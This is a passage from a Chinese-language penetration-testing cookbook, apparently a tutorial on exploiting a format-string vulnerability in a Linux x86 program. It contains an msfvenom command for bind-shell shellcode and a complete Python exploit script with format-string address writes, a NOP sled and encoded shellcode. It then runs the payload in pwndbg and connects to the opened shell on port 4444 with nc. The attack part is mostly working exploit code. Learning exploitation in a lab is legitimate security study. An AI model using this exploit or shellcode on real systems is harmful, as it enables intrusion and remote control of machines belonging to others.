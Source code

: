 ![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00124.jpeg)

现在我们可以用 Metasploit 生成一个 shell 代码：

```py
msfvenom -p linux/x86/shell_bind_tcp PrependFork=true -f python  
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00125.jpeg)

现在用 shell 代码更新利用代码：

```py
#!/usr/bin/python 
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0x10 
b2 = 0xf1 
b3 = 0xff 
b4 = 0xbf  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n'  
nopsled = '\x90' * 95   
buf =  "" 
buf += "\xbd\x55\xe7\x12\xd0\xd9\xc2\xd9\x74\x24\xf4\x5e\x33" 
buf += "\xc9\xb1\x18\x31\x6e\x13\x03\x6e\x13\x83\xee\xa9\x05" 
buf += "\xe7\xba\x53\x92\xc5\xbb\xd6\xe2\xa2\xbd\xe9\x22\xfa" 
buf += "\xc3\xc4\x23\xca\x18\x21\xc0\x7e\xdc\x9e\x6d\x83\x6b" 
buf += "\xc1\xc2\xe5\xa6\x81\x78\xb4\x6a\xe9\x7c\x48\x9a\xb5" 
buf += "\xea\x58\xcd\x15\x62\xb9\x87\xf3\x2c\xf7\xd8\x72\x8d" 
buf += "\x03\x6a\x80\xbe\x6a\x41\x08\xfd\xc2\x3f\xc5\x82\xb0" 
buf += "\x99\xbf\xbd\xee\xd4\xbf\x8b\x77\x1f\xd7\x24\xa7\xac" 
buf += "\x4f\x53\x98\x30\xe6\xcd\x6f\x57\xa8\x42\xf9\x79\xf8" 
buf += "\x6e\x34\xf9"  
postfix = 'X' *(250 - len(buf))  
print (w1 + w2 + w3 + w4 + form + nopsled + buf + postfix) 
```

我们添加了一个后缀，使注入字符的总数保持恒定。

1.  现在用有效载荷运行应用程序：

```py
pwndbg> run $(./exp2.py)    
```

1.  现在尝试使用`nc`连接作为 shell 代码并打开端口`4444`，然后尝试运行以下命令：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00126.jpeg)
